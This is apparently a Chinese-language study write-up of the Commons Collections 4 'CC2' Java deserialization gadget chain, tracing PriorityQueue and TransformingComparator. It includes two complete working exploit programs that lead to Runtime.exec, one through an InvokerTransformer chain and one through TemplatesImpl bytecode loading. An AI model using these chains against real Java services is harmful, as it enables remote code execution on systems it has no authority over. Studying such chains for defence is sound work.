







## 环境搭建

限制：JDK没有限制，需要commons-collections4

```java
 <dependency>
     <groupId>javassist</groupId>
     <artifactId>javassist</artifactId>
     <version>3.12.1.GA</version>
</dependency> 
<dependency>
    <groupId>org.apache.commons</groupId>
    <artifactId>commons-collections4</artifactId>
    <version>4.1</version>
</dependency>
```

## PriorityQueue 

`PriorityQueue`和`Queue`的区别在于，它的出队顺序与元素的优先级有关，对`PriorityQueue`调用`remove()`或`poll()`方法，返回的总是优先级最高的元素。

主要方法

- `PriorityQueue()` 使用默认的初始容量（11）创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
- `PriorityQueue(int initialCapacity)`使用指定的初始容量创建一个 PriorityQueue，并根据其自然顺序对元素进行排序。
- `PriorityQueue(int initialCapacity, Comparator<? super E> comparator)` 指定的初始容量创建一个 PriorityQueue，并根据指定比较器对元素进行排序.
- `add(E e)` 将指定的元素插入此优先级队列
- `clear()` 从此优先级队列中移除所有元素。
- `comparator()` 返回用来对此队列中的元素进行排序的比较器；如果此队列根据其元素的自然顺序进行排序，则返回 null
- `contains(Object o)` 如果此队列包含指定的元素，则返回 true。
- `iterator()` 返回在此队列中的元素上进行迭代的迭代器。
- `offer(E e)` 将指定的元素插入此优先级队列
- `peek()` 获取但不移除此队列的头；如果此队列为空，则返回 null。
- `poll()` 获取并移除此队列的头，如果此队列为空，则返回 null。
- `remove(Object o)` 从此队列中移除指定元素的单个实例（如果存在）。
- `size()` 返回此 collection 中的元素数。
- `toArray()` 返回一个包含此队列所有元素的数组。

例子可以看看[廖雪峰的网站](https://www.liaoxuefeng.com/wiki/1252599548343744/1265120632401152)

##  分析

还是直接从`readObject`入手，这次是`PriorityQueue`这个类



继续看`heapify()`的东西

```java
private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

需要`size`大于一，是queue的个数，我们直接在反射后加上两个值就行



看`siftDown`函数

```java
private void siftDown(int k, E x) {
        if (comparator != null)
            siftDownUsingComparator(k, x);
        else
            siftDownComparable(k, x);
    }
```

继续看

`siftDownComparable`函数



`siftDownUsingComparator`函数




这个调用`compare`函数，`comparator`又是一个接口，直接找

`TransformingComparator`类

这个函数里面就比较熟悉了，直接用cc1的一些东西




注意：

queue调用`add`函数增加个数时，

```java
public boolean add(E e) {
    return offer(e);
}
```






直接传入恶意 comparator 会在生成 `poc` 的时候(就是add函数)直接执行，那么就先不传 comparator 的，也就是`comparator==null`，那么`siftUp()`就会进入第二个函数，`siftUpComparable()`，这样就不会触发，然后再利用反射传入`恶意的comparator`

##  payload

```java
package payload.cc2;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.ChainedTransformer;
import org.apache.commons.collections4.functors.ConstantTransformer;
import org.apache.commons.collections4.functors.InvokerTransformer;
import java.io.*;
import java.lang.reflect.Field;
import java.util.PriorityQueue;

public class payload2 {
    public static void main(String[] args) throws Exception {
        ChainedTransformer chain = new ChainedTransformer(new ConstantTransformer(Runtime.class),
            new InvokerTransformer("getMethod",
                new Class[]{String.class, Class[].class},
                new Object[]{"getRuntime", new Class[0]}),
            new InvokerTransformer("invoke",
                new Class[]{Object.class, Object[].class},
                new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec",
                new Class[]{String.class},
                new String[]{"calc"}));
        TransformingComparator comparator = new TransformingComparator(chain);
        PriorityQueue queue=new PriorityQueue();

        queue.add(1);
        queue.add(2);
        Field field=Class.forName("java.util.PriorityQueue").getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue,comparator);

        ObjectOutputStream objectOutputStream=new ObjectOutputStream(new FileOutputStream(new File("./src/main/java/payload/cc2/temp.txt")));
        objectOutputStream.writeObject(queue);
        objectOutputStream.close();
        ObjectInputStream objectInputStream=new ObjectInputStream(new FileInputStream(new File("./src/main/java/payload/cc2/temp.txt")));
        objectInputStream.readObject();
        objectInputStream.close();
    }
}

```

##  思路2

上面的 `PriorityQueue` 只能执行命令，这里使用`Javassist` 触发`TemplatesImpl#newTransformer()`就可以执行恶意代码，使用`InvokerTransformer`调用`TemplatesImpl#newTransformer()`
                                                                                              

```java
package cc.cc2;

import java.io.ByteArrayInputStream;
import java.io.ByteArrayOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import javassist.ClassPool;
import javassist.CtClass;
import org.apache.commons.collections4.Transformer;
import org.apache.commons.collections4.comparators.TransformingComparator;
import org.apache.commons.collections4.functors.InvokerTransformer;

public class payload1 {
    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }

    public static void main(String[] args) throws Exception {
        ClassPool pool = ClassPool.getDefault();
        CtClass clazz = pool.get(test.class.getName());
        TemplatesImpl obj = new TemplatesImpl();
        setFieldValue(obj, "_bytecodes", new byte[][]{clazz.toBytecode()});
        setFieldValue(obj, "_name", "HelloTemplatesImpl");
        setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());
        Transformer transformer = new InvokerTransformer("toString", null, null);

        Comparator comparator = new TransformingComparator( transformer);

        PriorityQueue queue = new PriorityQueue(2, comparator);
        queue.add(obj);
        queue.add(obj);

        setFieldValue(transformer, "iMethodName", "newTransformer");

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(queue);
        oos.close();
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }
}
```

同目录下的test类：

```java
package cc.cc2;

import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;


public class  test extends AbstractTranslet {
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {}

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {}

    public test() throws Exception {
        super();
        Runtime.getRuntime().exec("calc");
        System.out.println(123);
    }
}

```


##  参考链接

https://yq1ng.github.io/2021/11/15/cc2/